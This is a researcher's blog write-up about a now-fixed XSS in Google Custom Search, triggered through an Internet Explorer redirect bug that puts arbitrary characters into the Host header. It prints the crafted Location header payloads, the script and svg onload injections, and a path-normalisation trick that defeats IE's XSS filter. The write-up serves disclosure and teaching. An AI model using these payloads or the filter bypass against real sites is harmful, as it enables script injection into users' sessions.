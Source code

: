 ```yaml
---
title: "XSS via Host header - www.google.com/cse"
date: "2015-04-22"
---
```


A few months ago I found a really fine XSS in Google's Custom Search Engine. The trick I needed to use doesn't seem to be broadly known and that's a pity as it sometimes might allow to make unexploitable exploitable. So here it is: XSS via Host header - Internet Explorer only. The trick was discovered by Sergey Bobrov ([@Black2Fan](https://twitter.com/black2fan)) two years ago and still hasn't been fixed in IE11. Details of the bug were once described on [Sergey's website](http://blackfan.ru/) but they're no longer there ([albeit archive.org saves the day](https://web.archive.org/web/20131107024350/http://blackfan.ru/)) so I'll give you a short overview.

Long story short: in IE there's an interesting bug in handling redirects that makes it possible to insert arbitrary characters to Host header. Suppose you have the following http response:

```http
HTTP/1.1 302 Found
Date: Fri, 06 Mar 2015 08:35:32 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.36-0+deb7u3
Location: http://example.com%2flogin.php
Vary: Accept-Encoding
Content-Length: 0
Connection: close
Content-Type: text/html
```

Try to guess what request will be then issued? Will it be issued at all? The Location header doesn't really seem right... So here is what IE does:

```http
GET /login.phphp/ HTTP/1.1
Accept: text/html, application/xhtml+xml, \*/\*
Accept-Language: pl-PL
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Host: example.com/login.php
DNT: 1
Connection: Keep-Alive
Cache-Control: no-cache
```

You can see it right: there's `example.com/login.php` in `Host` header. Also there's some odd path: why on earth is that `login.phphp` while there was nothing like that in the original URL? Well, it appears that IE does some odd overlaying of the path in its URL-encoded and URL-decoded form. The picture says it all:

[![](http://2.bp.blogspot.com/-yW2M3szUNJo/VUOn54NFM2I/AAAAAAAAADg/FZt5DHuvzdc/s1600/cse1.png)](http://2.bp.blogspot.com/-yW2M3szUNJo/VUOn54NFM2I/AAAAAAAAADg/FZt5DHuvzdc/s1600/cse1.png)

Moving on, you may expect that servers will tend to response with 400 Bad Request for such an odd Host header. And this is usually true...

[![](http://2.bp.blogspot.com/-Njy27MOndXo/VUOoRHaYF9I/AAAAAAAAADo/5Hr1m_83mGQ/s1600/cse2.png)](http://2.bp.blogspot.com/-Njy27MOndXo/VUOoRHaYF9I/AAAAAAAAADo/5Hr1m_83mGQ/s1600/cse2.png)

But fortunately there was some quirk in Google handling of Host header which allowed to bypass it.

The quirk is to add port number in the host header. It was not actually validated and you could put any string you like after a colon. Like this on Gmail:

[![](http://3.bp.blogspot.com/-34vs47w9OpM/VUOo1Ku5k8I/AAAAAAAAADw/ik6z5kg54EQ/s1600/cse3.png)](http://3.bp.blogspot.com/-34vs47w9OpM/VUOo1Ku5k8I/AAAAAAAAADw/ik6z5kg54EQ/s1600/cse3.png)

Gmail was smart enough to properly encode it though.

Before moving on to the proper XSS, I need to mention another Google server's specific behaviour, which will be needed to bypass IE's XSS protection later on. Normally when you try to reach a path will double dot inside (like `/test1/../test2`), Google server will immediately normalize it and issue a redirect.

[![](http://1.bp.blogspot.com/-wmt2SUvNao0/VUOptO4FqSI/AAAAAAAAAD4/bqireeUb73c/s1600/cse4.png)](http://1.bp.blogspot.com/-wmt2SUvNao0/VUOptO4FqSI/AAAAAAAAAD4/bqireeUb73c/s1600/cse4.png)

However, when you add a semicolon in a path, magically this no longer happens.

[![](http://3.bp.blogspot.com/-sdOWcDpEQPc/VUOp-N7OpKI/AAAAAAAAAEA/xDGdggdYjtQ/s1600/cse5.png)](http://3.bp.blogspot.com/-sdOWcDpEQPc/VUOp-N7OpKI/AAAAAAAAAEA/xDGdggdYjtQ/s1600/cse5.png)

Okay, so let's move on to the Google CSE XSS. It looked just like that:

[![](http://4.bp.blogspot.com/-HDaXjphmWLU/VUOqi2D99mI/AAAAAAAAAEI/kwckhnI1Nq8/s1600/cse6.png)](http://4.bp.blogspot.com/-HDaXjphmWLU/VUOqi2D99mI/AAAAAAAAAEI/kwckhnI1Nq8/s1600/cse6.png)

Host header is clearly reflected in the response without any encoding. Please note that Burp's syntax highlighting is misleading in the screenshot: `</textarea>` actually closes the tag and the script will be executed.

So I have prepared a simple webpage returning the following http response:

```http
HTTP/1.1 302 Found
Server: Apache/2.2.22 (Debian)
Location: https://www.google.com%3a443%2fcse%2ftools%2fcreate_onthefly%3b%3c%2ftextarea%3e%3cscript%3ealert(1)%3c%2fscript%3e
```

With an expectation that the next request will contain the following Host header:

```http
Host: www.google.com:443/cse/tools/create_onthefly;</textarea><script>alert(1)</script>
```

That really happened but IE knew something was going on here...

[![](http://4.bp.blogspot.com/-8GuQq3Lizwc/VUOrU8jj_XI/AAAAAAAAAEQ/5GfWDCzVvW4/s1600/cse7.png)](http://4.bp.blogspot.com/-8GuQq3Lizwc/VUOrU8jj_XI/AAAAAAAAAEQ/5GfWDCzVvW4/s1600/cse7.png)

Luckily, IE's XSS filter is dumb and it is pretty easy to circumvent it. Remember that trick with semicolon and `../`? Well, it seems that the filter works by comparing the URL in the address bar with the page's content. So when you issue a request to, say, `/<svg/onload=alert(1)/../../`, IE will automatically normalize it in the address bar to / and will no longer see the XSS. That's just hilarious!

So eventually I had a page with the following header:

```http
Location: https://www.google.com%3a443%2fcse%2ftools%2fcreate\_onthefly%3b%3c%2ftextarea%3e%3csvg%2fonload%3dalert%28document%2edomain%29%3e%3b%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f
```

where the value decodes to:

```http
Location: https://www.google.com:443/cse/tools/create_onthefly;</textarea><svg/onload=alert(document.domain)>;/../../../../../../../../../../../../../../
```

And finally the XSS worked!

<iframe src="https://www.youtube.com/embed/9A44ERoAFkc" title="" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Google Security team seemed to be amazed with the bug and now they fixed the server so that it no longer accepts any "strange" characters after a colon in host name.
